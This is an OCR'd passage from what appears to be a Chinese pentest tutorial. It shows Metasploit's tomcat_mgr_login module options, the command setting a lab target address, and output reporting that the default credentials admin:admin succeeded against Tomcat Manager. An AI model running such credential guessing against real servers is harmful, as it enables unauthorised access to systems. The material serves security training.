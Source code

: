        STOP_ON_SUCCESS   false   
    yes   Stop guessing when a credential works for a host   
       TARGETURI /manager/html   
    yes   URI for Manager login. Default is /manager/html
       THREADS   1   
    yes   The number of concurrent threads   
       USERNAME  
    noA specific username to authenticate as 
       USERPASS_FILE F:/PentestBox2/PentestBox-v2.2/bin/metasploit-framework/data/wordlists/t
    omcat_mgr_default_userpass.txt  noFile containing users and passwords separated by sp
    ace, one pair per line   
       USER_AS_PASS  false   
    noTry the username as the password for all users 
       USER_FILE F:/PentestBox2/PentestBox-v2.2/bin/metasploit-framework/data/wordlists/t
    omcat_mgr_default_users.txt noFile containing users, one per line
       VERBOSE   true
    yes   Whether to print output for all attempts   
       VHOST 
    noHTTP server virtual host          

### msf auxiliary(tomcat\_mgr_login) > set RHOSTS 192.168.2.192
	RHOSTS => 192.168.2.192
### msf auxiliary(tomcat\_mgr_login) > exploit

    [!] No active DB -- Credential data will not be saved!
    [+] 192.168.2.192:8080 - LOGIN SUCCESSFUL: admin:admin
    [-] TOMCAT_MGR - LOGIN FAILED: manager:admin (Incorrect: )
    [-] TOMCAT_MGR - LOGIN FAILED: manager:manager (Incorrect: )
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

	第二行带有[+]已显示账户和密码

